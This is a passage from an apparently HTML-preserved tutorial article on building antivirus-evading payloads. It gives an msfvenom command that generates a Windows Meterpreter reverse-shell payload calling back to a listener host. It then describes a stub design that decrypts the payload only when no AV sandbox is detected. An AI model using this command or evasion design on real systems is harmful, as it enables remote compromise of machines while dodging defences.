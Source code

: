     <p>I covered most of this in <a href="https://www.deepdotweb.com/author/filipjelic/">one of my articles</a>. New stuff is &#8220;–f c&#8221; which makes it ready for C program and –b &#8216;\x00&#8217; which says please don&#8217;t include the null character because they would be interpreted as the end of the string in C. Here&#8217;s the one liner that generated the payload:</p><!-- Crayon Syntax Highlighter v_2.7.2_beta -->
    
    <div id="crayon-59ca5e7cae351662492993" class="crayon-syntax crayon-theme-classic crayon-font-monaco crayon-os-pc print-yes notranslate" data-settings=" minimize scroll-mouseover" style=" margin-top: 12px; margin-bottom: 12px; font-size: 12px !important; line-height: 15px !important;">
    
    <div class="crayon-toolbar" data-settings=" mouseover overlay hide delay" style="font-size: 12px !important;height: 18px !important; line-height: 18px !important;"><span class="crayon-title"></span>
    <div class="crayon-tools" style="font-size: 12px !important;height: 18px !important; line-height: 18px !important;"><div class="crayon-button crayon-nums-button" title="Toggle Line Numbers"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-plain-button" title="Toggle Plain Code"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-wrap-button" title="Toggle Line Wrap"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-expand-button" title="Expand Code"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-copy-button" title="Copy"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-popup-button" title="Open Code In New Window"><div class="crayon-button-icon"></div></div></div></div>
    <div class="crayon-info" style="min-height: 16.8px !important; line-height: 16.8px !important;"></div>
    <div class="crayon-plain-wrap"><textarea wrap="soft" class="crayon-plain print-no" data-settings="dblclick" readonly style="-moz-tab-size:4; -o-tab-size:4; -webkit-tab-size:4; tab-size:4; font-size: 12px !important; line-height: 15px !important;">
    msfvenom -p windows/x64/meterpreter/reverse_tcp -f c -b '\x00' -i 0 LHOST=192.168.1.103 LPORT=4444</textarea></div>
    <div class="crayon-main" style="">
    <table class="crayon-table">
    <tr class="crayon-row">
    <td class="crayon-nums " data-settings="show">
    <div class="crayon-nums-content" style="font-size: 12px !important; line-height: 15px !important;"><div class="crayon-num" data-line="crayon-59ca5e7cae351662492993-1">1</div></div>
    </td>
    <td class="crayon-code"><div class="crayon-pre" style="font-size: 12px !important; line-height: 15px !important; -moz-tab-size:4; -o-tab-size:4; -webkit-tab-size:4; tab-size:4;"><div class="crayon-line" id="crayon-59ca5e7cae351662492993-1"><span class="crayon-v">msfvenom</span><span class="crayon-h"> </span><span class="crayon-o">-</span><span class="crayon-i">p</span><span class="crayon-h"> </span><span class="crayon-v">windows</span><span class="crayon-o">/</span><span class="crayon-v">x64</span><span class="crayon-o">/</span><span class="crayon-v">meterpreter</span><span class="crayon-o">/</span><span class="crayon-v">reverse_tcp</span><span class="crayon-h"> </span><span class="crayon-o">-</span><span class="crayon-i">f</span><span class="crayon-h"> </span><span class="crayon-v">c</span><span class="crayon-h"> </span><span class="crayon-o">-</span><span class="crayon-i">b</span><span class="crayon-h"> </span><span class="crayon-s">'\x00'</span><span class="crayon-h"> </span><span class="crayon-o">-</span><span class="crayon-i">i</span><span class="crayon-h"> </span><span class="crayon-cn">0</span><span class="crayon-h"> </span><span class="crayon-v">LHOST</span><span class="crayon-o">=</span><span class="crayon-cn">192.168.1.103</span><span class="crayon-h"> </span><span class="crayon-v">LPORT</span><span class="crayon-o">=</span><span class="crayon-cn">4444</span></div></div></td>
    </tr>
    </table>
    </div>
    </div>
    <!-- [Format Time: 0.0006 seconds] -->
    <p>
    For start, I tested it with unencoded payload (-i 0) and got the expecting results:</p>
    <p><img class="wp-image-22752 aligncenter" src="https://www.deepdotweb.com/wp-content/uploads/2017/09/word-image-48.png" /></p>
    <p>All of these programs consist of 2 parts:</p>
    <ol>
    <li>Encrypted payload</li>
    <li>Stub – part of the code which decides when to decrypt and run payload (real system) and when to exit the program (if AV sandbox is detected).</li>
    </ol>